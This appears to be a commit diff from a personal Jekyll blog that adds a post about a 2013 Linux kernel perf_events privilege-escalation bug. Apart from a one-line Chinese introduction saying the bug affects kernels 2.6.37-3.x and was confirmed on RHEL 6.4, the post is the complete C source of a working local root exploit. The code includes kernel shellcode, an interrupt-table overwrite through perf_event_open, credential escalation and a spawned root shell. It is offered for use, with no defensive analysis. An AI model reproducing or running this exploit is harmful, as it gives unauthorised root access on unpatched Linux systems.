

Before and after one commit to ms2008/ms2008.github.io, a Jekyll site: the page built from tags.html, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown.

Commit message:
add new post about linux root exploit

````diff
--- /dev/null
+++ b/_posts/2013-11-10-linux-perf_events-root-exploit.md
@@ -0,0 +1,272 @@
+---
+layout:     post
+title:      "Linux kernel perf_events local root exploit"
+subtitle:   ""
+date:       2013-11-10
+author:     "ms2008"
+header-img: "img/contact-bg.jpg"
+catalog:    true
+tags:
+    - C
+    - Exploit
+---
+
+该提权漏洞是 Alibaba 的一位大牛于 **2013-05-24** 所发布，据说可以通杀 2.6.37 - 3.x 所有内核，我已确认受影响的系统：**RHEL 6.4 x86_64**
+
+```C
+ /*
+ * Linux kernel perf_events local root exploit
+ *
+ * by wzt 2013  http://www.cloud-sec.org
+ *
+ * gcc -o perf_exp per_exp.c -O2
+ *
+ * target: 2.6.37 - 3.x
+ *
+ * test on:
+ * rhel6.3/6.4 x86_64
+ * rhel6.3 + 3.2 kernel
+ */
+
+#include <stdint.h>
+#include <stdio.h>
+#include <stdlib.h>
+#include <string.h>
+#include <unistd.h>
+#include <sys/mman.h>
+#include <sys/utsname.h>
+#include <syscall.h>
+#include <stdint.h>
+#include <assert.h>
+#include <linux/perf_event.h>
+
+#define KALLSYMS_NAME                           "/boot/System.map-2.6.32-279.el6.x86_64"
+
+#define BASE                                    0x380000000
+#define SIZE                                    0x010000000
+#define KSIZE                                   0x2000000
+
+#define USER_CS                                 0x33
+#define USER_SS                                 0x2b
+#define USER_FL                                 0x246
+
+#define STACK(x)                                (x + sizeof(x))
+
+typedef int __attribute__((regparm(1)))(*_commit_creds)(unsigned long cred);
+typedef unsigned long __attribute__((regparm(1)))(*_prepare_kernel_cred)(unsigned long cred);
+_commit_creds commit_creds;
+_prepare_kernel_cred prepare_kernel_cred;
+
+void exit_user_code(void);
+char user_stack[1024 * 1024];
+
+uint64_t *orig_idt_handler;
+
+unsigned char kern_sc[] = "\x48\xc7\xc3\x40\x08\x40\x00\xff\xe3";
+
+struct idtr {
+        uint16_t limit;
+        uint64_t addr;
+}__attribute__((packed));
+
+void exit_user_code(void)
+{
+        if (getuid() != 0) {
+                printf("[-] exploit failed.\n");
+                exit(-1);
+        }
+
+        printf("[+] Got root shell!\n");
+        execl("/bin/bash", "sh", "-i", NULL);
+}
+
+void kernel_shellcode(void)
+{
+        asm volatile("swapgs\n\t"
+                        "movq orig_idt_handler, %rsi\n\t"
+                        "movq $-1, (%rsi)\n\t"
+                        "movq $0, %rdi\n\t"
+                        "movq $prepare_kernel_cred, %rsi\n\t"
+                        "movq (%rsi), %rsi\n\t"
+                        "callq *%rsi\n\t"
+                        "movq %rax, %rdi\n\t"
+                        "movq $commit_creds, %rsi\n\t"
+                        "movq (%rsi), %rsi\n\t"
+                        "callq *%rsi\n\t"
+                        "movq $0x2b, 0x20(%rsp)\n\t"
+                        "movq $user_stack, %rbx\n\t"
+                        "addq $0x100000, %rbx\n\t"
+                        "movq %rbx, 0x18(%rsp)\n\t"
+                        "movq $0x246, 0x10(%rsp)\n\t"
+                        "movq $0x33, 0x08(%rsp)\n\t"
+                        "movq $exit_user_code, %rbx\n\t"
+                        "movq %rbx, 0x00(%rsp)\n\t"
+                        "swapgs\n\t"
+                        "iretq");
+}
+
+int perf_event_open(uint32_t offset)
+{
+        struct perf_event_attr p_attr;
+        int fd;
+
+        memset(&amp;p_attr, 0, sizeof(struct perf_event_attr));
+        p_attr.type = PERF_TYPE_SOFTWARE;
+        p_attr.size = sizeof(struct perf_event_attr);
+        p_attr.config = offset;
+        p_attr.mmap = 1;
+        p_attr.freq = 1;
+
+        fd = syscall(__NR_perf_event_open, &amp;p_attr, 0, -1, -1, 0);
+        if (fd == -1) {
+                perror("perf_event_open");
+                return -1;
+        }
+
+        if (close(fd) == -1) {
+                perror("close");
+                return -1;
+        }
+
+        return 0;
+}
+
+unsigned long find_symbol_by_proc(char *file_name, char *symbol_name)
+{
+        FILE *s_fp;
+        char buff[200];
+        char *p = NULL, *p1 = NULL;
+        unsigned long addr = 0;
+
+        s_fp = fopen(file_name, "r");
+        if (s_fp == NULL) {
+                printf("open %s failed.\n", file_name);
+                return 0;
+        }
+
+        while (fgets(buff, 200, s_fp) != NULL) {
+                if (strstr(buff, symbol_name) != NULL) {
+                        buff[strlen(buff) - 1] = '\0';
+                        p = strchr(strchr(buff, ' ') + 1, ' ');
+                        ++p;
+                        if (!p)
+                                return 0;
+
+                        if (!strcmp(p, symbol_name)) {
+                                p1 = strchr(buff, ' ');
+                                *p1 = '\0';
+                                sscanf(buff, "%lx", &amp;addr);
+                                break;
+                        }
+                }
+        }
+
+        fclose(s_fp);
+        return addr;
+}
+
+int perf_symbol_init(void)
+{
+        struct utsname os_ver;
+        char system_map[128];
+
+        if (uname(&amp;os_ver) == -1) {
+                perror("uname");
+                return -1;
+        }
+
+        printf("[+] target kernel: %s\tarch: %s\n", os_ver.release, os_ver.machine);
+
+        snprintf(system_map, sizeof(system_map),
+                "/boot/System.map-%s", os_ver.release);
+        printf("[+] looking for symbols...\n");
+        commit_creds = (_commit_creds)find_symbol_by_proc(system_map, "commit_creds");
+        if (!commit_creds) {
+                printf("[-] not found commit_creds addr.\n");
+                return -1;
+        }
+        printf("[+] found commit_creds addr: %p\n", commit_creds);
+
+        prepare_kernel_cred =(_prepare_kernel_cred)find_symbol_by_proc(system_map,
+                        "prepare_kernel_cred");
+        if (!prepare_kernel_cred) {
+                printf("[-] not found prepare_kernel_cred addr.\n");
+                return -1;
+        }
+        printf("[+] found prepare_kernel_cred addr: %p\n", prepare_kernel_cred);
+}
+
+void exploit_banner(void)
+{
+        printf("Linux kernel perf_events(2.6.37 - 3.x) local root exploit.\n"
+                "by wzt 2013\thttp://www.cloud-sec.org\n\n");
+}
+
+int main()
+{
+        struct idtr idt;
+        uint64_t kbase;
+        uint8_t *code;
+        uint32_t *map;
+        int i;
+        int idt_offset;
+
+        exploit_banner();
+
+        if (perf_symbol_init() == -1)
+                return -1;
+
+        map = mmap((void*)BASE, SIZE, PROT_READ | PROT_WRITE,
+                        MAP_ANONYMOUS | MAP_PRIVATE | MAP_FIXED, -1, 0);
+        if (map != (void *)BASE) {
+                perror("mmap");
+                return -1;
+        }
+        printf("[+] mmap at %p ok.\n", (void *)map);
+        memset(map, 0, SIZE);
+
+        if (perf_event_open(-1) == -1)
+                return -1;
+
+        if (perf_event_open(-2) == -1)
+                return -1;
+
+        for (i = 0; i < SIZE/4; i++) {
+                if (map[i]) {
+                        assert(map[i+1]);
+                        break;
+                }
+        }
+        assert(i<SIZE/4);
+
+        asm ("sidt %0" : "=m"(idt));
+        kbase = idt.addr &amp; 0xff000000;
+
+        code = mmap((void*)kbase, KSIZE, PROT_READ | PROT_WRITE | PROT_EXEC,
+                        MAP_ANONYMOUS | MAP_PRIVATE | MAP_FIXED, -1, 0);
+        if (code != (void *)kbase) {
+                perror("mmap");
+                return -1;
+        }
+        printf("[+] mmap shellcode at %p ok.\n", (void *)code);
+
+        memset(code, 0x90, KSIZE);
+        code += KSIZE - 1024;
+
+        *(uint32_t *)(kern_sc + 3) = (uint32_t)&amp;kernel_shellcode;
+        memcpy(code - 9, kern_sc, 9);
+
+        orig_idt_handler = (uint64_t *)(idt.addr + 0x48);
+        printf("[+] int4 idt handler addr: %lx\n", orig_idt_handler);
+
+        idt_offset = -i + (((idt.addr &amp; 0xffffffff) - 0x80000000) / 4) + 16;
+        printf("[+] trigger offset: %d\n", idt_offset);
+
+        if (perf_event_open(idt_offset) == -1)
+                return -1;
+
+        printf("[+] trigger int4 ...\n");
+        asm("int $0x4");
+}
+
+```
````
Also changed, not shown: _includes/about/zh.md (+1 -0 lines).
